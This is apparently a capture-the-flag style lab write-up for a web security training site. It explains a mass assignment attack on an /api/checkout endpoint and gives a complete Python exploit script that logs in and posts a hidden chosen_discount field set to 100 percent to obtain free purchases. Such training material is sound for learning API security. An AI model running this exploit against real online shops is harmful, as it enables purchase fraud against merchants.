 ```yaml
---
title: 'API Lab 4'
description: 'Exploiting a mass assignment vulnerability to get a free purchase'
---
```



## Exploiting a mass assignment vulnerability

<div style="text-align: justify;">
  This lab demonstrates how mass assignment vulnerabilities can allow an attacker to set hidden parameters in an API request, altering application behaviour. The objective is to exploit a mass assignment issue in the `/api/checkout` endpoint to apply a 100% discount and purchase the Lightweight "l33t" Leather Jacket without having sufficient credit. The lab walks through identifying hidden JSON fields in API responses, testing server-side validation, and sending modified JSON to the POST endpoint to escalate privileges or change application state.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Log in as the provided user (`wiener:peter`) and add the target product to your basket in the Burp browser.
- Inspect the API requests for `/api/checkout` in Proxy → HTTP history. Note the JSON structure returned by the GET request.
- Identify hidden parameters returned by GET that are not present in the POST, for example `chosen_discount`.
- Send the POST to `/api/checkout` with the additional `chosen_discount` object (mass assignment).
- Validate that the server accepts the field by sending a non-numeric value (e.g. `"x"`) — an error indicates the server is parsing and validating the input.
- Finally set `chosen_discount.percentage` to `100` and POST to `/api/checkout` to complete the purchase.
- If the checkout succeeds with a 100% discount, the lab is solved.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
import re
from bs4 import BeautifulSoup

# Disable SSL warnings (labs / self-signed certs)
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp proxy (default)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

USERNAME = "wiener"
PASSWORD = "peter"
PRODUCT_ID = "1"  # leather jacket in this lab
TIMEOUT = 8

def check_burp():
    """Ensure Burp is running on 127.0.0.1:8080 (helpful for debugging)."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=2)
    except requests.exceptions.RequestException:
        print("[-] Burp proxy not reachable at 127.0.0.1:8080. Start Burp or update proxy settings.")
        sys.exit(1)

def fetch_login(session, base_url):
    """GET /login and return response (used to extract csrf & initial session)."""
    try:
        return session.get(f"{base_url}/login", verify=False, proxies=proxies, timeout=TIMEOUT)
    except requests.RequestException as e:
        print(f"[-] Failed to fetch /login: {e}")
        sys.exit(1)

def extract_csrf(html):
    """Extract first input[name=csrf] value from HTML or return None."""
    soup = BeautifulSoup(html, "html.parser")
    inp = soup.find("input", {"name": "csrf"})
    if inp and inp.get("value"):
        return inp["value"]
    # fallback to regex
    m = re.search(r'name=["\']?csrf["\']?\s+value=["\']([^"\']+)', html, re.IGNORECASE)
    return m.group(1) if m else None

def do_login(session, base_url, csrf=None, initial_session=None):
    """Login as wiener:peter. Returns updated session cookie value."""
    if initial_session:
        session.cookies.set("session", initial_session)
    data = {"username": USERNAME, "password": PASSWORD}
    if csrf:
        data["csrf"] = csrf
    try:
        r = session.post(f"{base_url}/login", data=data, verify=False, proxies=proxies, allow_redirects=False, timeout=TIMEOUT)
    except requests.RequestException as e:
        print(f"[-] Login request failed: {e}")
        sys.exit(1)
    new_sess = r.cookies.get("session") or session.cookies.get("session")
    if not new_sess:
        print("[-] Login appears to have failed (no session cookie).")
        sys.exit(1)
    session.cookies.set("session", new_sess)
    return new_sess

def post_checkout(session, base_url, product_id=PRODUCT_ID, discount_pct=100):
    """
    Post to /api/checkout with chosen_products + chosen_discount.
    Exploit mass-assignment by sending chosen_discount.percentage = 100.
    """
    payload = {
        "chosen_products": [
            {"product_id": product_id, "quantity": 1}
        ],
        "chosen_discount": {"percentage": discount_pct}
    }
    try:
        return session.post(f"{base_url}/api/checkout", json=payload, verify=False, proxies=proxies, timeout=TIMEOUT, allow_redirects=False)
    except requests.RequestException as e:
        print(f"[-] /api/checkout request failed: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <lab-url>")
        print(f"Example: python {sys.argv[0]} https://<id>.web-security-academy.net")
        sys.exit(1)

    base_url = sys.argv[1].rstrip("/")
    session = requests.Session()
    session.verify = False
    session.proxies.update(proxies)

    # optional: ensure Burp is running for easier debugging
    check_burp()

    # 1) fetch login page
    print("[*] Fetching login page...")
    login_resp = fetch_login(session, base_url)

    # 2) extract csrf & session
    csrf = extract_csrf(login_resp.text)
    initial_sess = login_resp.cookies.get("session")
    print(f"    csrf: {csrf}, session: {'present' if initial_sess else 'none'}")

    # 3) login as wiener
    print("[*] Logging in as wiener...")
    do_login(session, base_url, csrf=csrf, initial_session=initial_sess)
    print("[+] Logged in")

    # (optional) add product to basket via site if needed — many labs expect the item to be in basket already.
    # Some instances accept direct /api/checkout; if not, the lab UI step can be done in browser.

    # 4) exploit: send checkout with chosen_discount 100%
    print("[*] Posting /api/checkout with chosen_discount.percentage = 100 ...")
    r = post_checkout(session, base_url, product_id=PRODUCT_ID, discount_pct=100)
    print(f"    /api/checkout -> {r.status_code}")

    # 5) heuristics: success if order-related text or 2xx status
    if r.status_code in (200,201,202,204) or "order" in (r.text or "").lower() or "checkout" in (r.text or "").lower():
        print("[✓] Checkout submitted — verify lab in browser (should be solved).")
    else:
        print("[!] Checkout may not have succeeded automatically. Check response:")
        print((r.text or "")[:600])

if __name__ == "__main__":
    main()
```